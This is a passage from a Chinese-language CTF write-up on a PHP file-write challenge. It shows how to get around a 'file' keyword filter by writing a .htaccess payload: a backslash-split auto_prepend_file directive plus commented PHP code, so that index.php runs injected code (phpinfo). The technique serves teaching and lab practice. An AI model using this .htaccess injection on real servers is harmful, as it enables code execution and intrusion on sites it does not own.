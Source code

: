 ```php
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?> 
```

打开之后还出现了两个警告

```
Warning: include_once(fl3g.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 10

Warning: include_once(): Failed opening 'fl3g.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 10
```

这里有个`unlink`函数

![image-20210415141800526](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210415141800526.png)

查询官方文档得知是用来删除同目录文件的

下面有个`file_put_contents`,如果按照普通题目的话就可以使用`file://`协议去做，但是这道题把`file://`协议给过滤掉了

如果利用写shell的方法也不行，因为会清除文件

这时候我们就可以用`.htaccess`文件包含的方法来做

先是把`.htaccess`包含进index.php里面

因为file被过滤掉了，所以要用反斜杠进行换行

```
php_value auto_prepend_fi\
le .htaccess
```

然后把代码写进去

```
php_value auto_prepend_fi\
le .htaccess
<?php phpinfo();?>
```

会发现这样写没反应，直接报500错误

![image-20210415231115628](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210415231115628.png)

这是因为输入的内容被自动加入了`\nJust one chance`，就造成了语法错误，就报错了

![image-20210417203923003](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210417203923003.png)

直接把后面的内容用`#`注释掉就可以了，然后再加个\把后面转义掉

```
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();?>\
```
